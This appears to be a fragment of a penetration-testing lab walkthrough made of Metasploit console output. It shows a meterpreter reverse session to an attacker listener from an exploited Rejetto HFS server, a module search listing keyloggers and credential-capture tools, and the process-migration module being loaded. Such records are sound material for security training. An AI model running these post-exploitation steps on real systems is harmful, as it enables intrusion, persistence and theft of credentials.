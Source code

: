 ```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/http/rejetto_hfs_exec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x64/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.21.3:4444 -> 10.0.29.158:49428 (10.0.29.158)
```

```
msf5 exploit(windows/http/rejetto_hfs_exec) > search migrate

Matching Modules
================

   #   Name                                         Disclosure Date  Rank       Check  Description
   -   ----                                         ---------------  ----       -----  -----------
   0   exploit/unix/webapp/awstats_migrate_exec     2006-05-04       excellent  Yes    AWStats migrate Remote Command Execution
   1   exploit/windows/http/hp_nnm_ovas             2008-04-02       good       Yes    HP OpenView NNM 7.53, 7.51 OVAS.EXE Pre-Authentication Stack Buffer Overflow
   2   exploit/windows/local/ms13_053_schlamperei   2013-12-01       average    Yes    Windows NTUserMessageCall Win32k Kernel Pool Overflow (Schlamperei)
   3   post/windows/capture/keylog_recorder                          normal     No     Windows Capture Keystroke Recorder
   4   post/windows/capture/lockout_keylogger                        normal     No     Windows Capture Winlogon Lockout Credential Keylogger
   5   post/windows/gather/enum_services                             normal     No     Windows Gather Service Info Enumeration
   6   post/windows/gather/local_admin_search_enum                   normal     No     Windows Gather Local Admin Search
   7   post/windows/gather/memory_grep                               normal     No     Windows Gather Process Memory Grep
   8   post/windows/manage/add_user_domain                           normal     No     Windows Manage Add User to the Domain and/or to a Domain Group
   9   post/windows/manage/archmigrate                               normal     No     Architecture Migrate
   10  post/windows/manage/migrate                                   normal     No     Windows Manage Process Migration
   11  post/windows/manage/mssql_local_auth_bypass                   normal     No     Windows Manage Local Microsoft SQL Server Authorization Bypass
   12  post/windows/manage/priv_migrate                              normal     No     Windows Manage Privilege Based Process Migration
```

```
msf5 exploit(windows/http/rejetto_hfs_exec) > use post/windows/manage/migrate
msf5 post(windows/manage/migrate) > show options

Module options (post/windows/manage/migrate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   KILL       false            no        Kill original process for the session.
   NAME                        no        Name of process to migrate to.
   PID        0                no        PID of process to migrate to.
   PPID       0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing).
   PPID_NAME                   no        Name of process for PPID spoofing when creating a new process.
```